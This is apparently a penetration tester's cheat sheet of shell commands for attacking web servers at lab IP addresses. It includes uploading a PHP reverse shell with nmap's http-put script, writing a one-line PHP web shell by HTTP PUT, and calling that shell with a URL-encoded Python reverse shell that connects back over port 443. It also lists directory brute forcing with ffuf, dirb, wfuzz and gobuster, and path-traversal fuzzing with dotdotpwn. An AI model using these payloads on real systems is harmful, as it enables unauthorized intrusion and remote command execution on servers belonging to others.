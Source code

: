 ```
	# With PUT option enabled:

	nmap -p 80 10.1.10.111 --script http-put --script-args http-put.url='/test/rootme.php',http-put.file='/root/php-reverse-shell.php'

	curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://10.1.10.111/test/cmd.php
	&& http://10.1.10.111/test/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%210.1.10.111%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27

# Get everything
curl -i -L 10.11.1.111
curl -i -H "User-Agent:Mozilla/4.0" http://10.11.1.111:8080

# Check for title and all links
curl 10.11.1.111 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

# Look at page with just text
curl 10.11.1.111 -s -L | html2text -width '99' | uniq

# Check if it is possible to upload
curl -v -X OPTIONS http://10.11.1.111/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.11.1.111/test/shell.php

# Simple curl POST request with login data
curl -X POST http://10.11.1.11/centreon/api/index.php?action=authenticate -d 'username=centreon&password=wall'

dotdotpwn.pl -m http -h 10.11.1.111 -M GET -o unix

site:domain.com intext:user


# Firebase
https://github.com/Turr0n/firebase
python3 firebase.py -p 4 --dnsdumpster -l file

```

### Url brute force

```
# Ffuf
ffuf -c -e '.htm','.php','.html','.js','.txt','.zip','.bak','.asp','.aspx','xml','.log' -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u https://10.11.1.11/mvc/FUZZ

# Dirb not recursive
dirb http://10.11.1.111 -r -o dirb-10.11.1.111.txt

# Wfuzz
wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 http://10.11.1.11/FUZZ

# GoBuster
gobuster dir -u http://10.11.1.111 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
gobuster dir -e -u http://10.11.1.111/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
gobuster dir -u http://$10.11.1.111 -w /usr/share/seclists/Discovery/Web_Content/Top1000-RobotsDisallowed.txt
gobuster dir -e -u http://10.11.1.111/ -w /usr/share/wordlists/dirb/common.txt

dotdotpwn.pl -m http -h 10.11.1.111 -M GET -o unix
```
